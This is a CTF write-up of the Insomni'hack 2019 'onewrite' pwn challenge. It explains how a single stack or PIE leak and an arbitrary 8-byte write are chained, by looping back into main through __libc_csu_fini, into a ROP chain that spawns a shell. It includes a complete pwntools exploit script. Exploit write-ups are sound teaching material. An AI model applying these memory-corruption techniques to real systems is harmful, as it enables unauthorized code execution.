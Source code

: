 ```yaml
---
layout: post
title: ! "[Insomni'hack 2019] onewrite writeup"
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - Pwn
  - MyriaBreak
---
```

# onewrite (pwn)

### Description

> [wishlish.png](../images/myria/wishlist-writeup/onewrite) is here
> difficulty: easy
>_  nc onewrite.teaser.insomnihack.ch 1337

<!--more-->
A program is a Simple.

```bash
All you need to pwn nowadays is a leak and a qword write they say...
What do you want to leak ?
1. stack
2. pie
 > 1
0x7fff979bf4a0
address : 140735736968352   
data : 12345678
 ```

we can leak a `stack` or `do_leak` function pointer for us once. Then, it will call `do_overwrite` which allows us to overwrite 8 byte to arbitrary address.

 ```bash
 [*] '/home/myria/CTF/Insomni_hack/onewrite/onewrite'
     Arch:     amd64-64-little
     RELRO:    Partial RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      PIE enabled

 and binary is "statically linked"
 ```

but, the binary is statically linked, we need leak `stack` and `pie` both of all.
The attack is summarized as follows.

 1. Leak `PIE` address
 2. Overwrite `pie_addr + 0x2a55a3` with `main` address
 3. Program end. And the `exit` will be called after `main` returns.
 (it call `__libc_csu_fini` function)
 4. `__libc_csu_fini` function call `QWORD [pie_addr + 0x2a55a3]`. so we again jump to `main` function.
 5. Leak `Stack` address
 6. Write a `ropchain` in the `bss`
 7. Jump `ropchain`
 8. Get Shell

The exit function is called after the main function ends. Then, the function `__libc_csu_fini` is called and you can return to main by using the **call QWORD PTR [rbp + rbx * 8 + 0x0]** of `<__ libc_csu_fini+40>`.
 ![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_03.png)

 ![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_01.png)

 `6. Write a 'ropchain' in the 'bss'` is hard part. so i need to be able to write 8 bytes somewhere and **jump free** from the main function again.
You can adjust the `stack` by omitting the function's **prologue** or **epilogue** appropriately.
 manipulate the return address of the `main function` and manipulate the return address of the `do_leak function`. (`sub rsp, 0x18` ,` add rsp, 0x18` or `sub rsp, 0x8` ,` add rsp, 0x8`)
Then the `stack` is configured as shown below. Now we got one **free write** via two operations.

 ![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_02.png)

The rest is simple. configure ropchain and use `pop rsp; ret`

### The full exploit code

 ```python
 from pwn import *

#conn = remote("onewrite.teaser.insomnihack.ch", 1337)
conn = process("onewrite")

def leak(select):
	conn.recvuntil(" > ")
	conn.sendline(str(select))
	leak_addr = int(conn.recvline().strip(), 16)
	return leak_addr

def write(addr, data):
	conn.recvuntil("address : ")
	conn.send(str(addr))
	conn.recvuntil("data : ")
	conn.send(data)

## Stage 1
# do_leak func address leak
pie_addr = leak(2)
log.info("pie_address : " + hex(pie_addr))

target = pie_addr + 0x2a55a3 # rbp+rbx*8+0x0   //   call QWORD PTR [rbp+rbx*8+0x0]
main = pie_addr + 0xa3		# main function address
write(target, p64(main))

## Stage 2
# stack_address leak
stack_addr = leak(1)
target = stack_addr  + 0x28	# return address (main function)
log.info("stack_address : " + hex(stack_addr))
write(target, p64(main))


def write_arbitrary(addr, data):
	# stack_address += 8
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	target = stack_addr  + 0x28
	write(target, p64(main))

	# stack_address -= 8
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	target = stack_addr  + 0x18
	write(target, p64(main))

	# main_ret => main
	# free write! and return Main
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	log.info("writing")
	write(addr, data)	# free write

# rop_gadget
pie_base = pie_addr - 0x000008A15
pop_rdi = pie_base + 0x000858fb
pop_rsi = pie_base + 0x0008551a
pop_rdx = pie_base + 0x000484c5
pop_rax = pie_base + 0x0004654c
syscall = pie_base + 0x00088834

bss_address = pie_base + 0x2B38D0

log.info("pie_base : " + hex(pie_base))

# write "/bin/sh" to BSS
write_arbitrary(bss_address, "/bin/sh\x00")

idx = 2
def rop(data):
	global idx
	write_arbitrary(bss_address + idx*8, p64(data))
	idx+=1

# write rop_chain to BSS
rop(pop_rdi)
rop(bss_address)
rop(pop_rsi)
rop(0)
rop(pop_rdx)
rop(0)
rop(pop_rax)
rop(59)
rop(syscall)

def trigger_rop():
	stack_addr = leak(1)
	target = stack_addr  + 0x28
	log.info("stack_address : " + hex(stack_addr))
	write(target, p64(main))

	pop_rsp = pie_base + 0x00087c46
	rop_chain = bss_address + 0x10

	# jump ropchain
	write_arbitrary(stack_addr + 0x40, p64(pop_rsp))
	write_arbitrary(stack_addr + 0x48, p64(rop_chain))

trigger_rop()
leak(1)
write(1,"id\n")

conn.interactive()
 ```
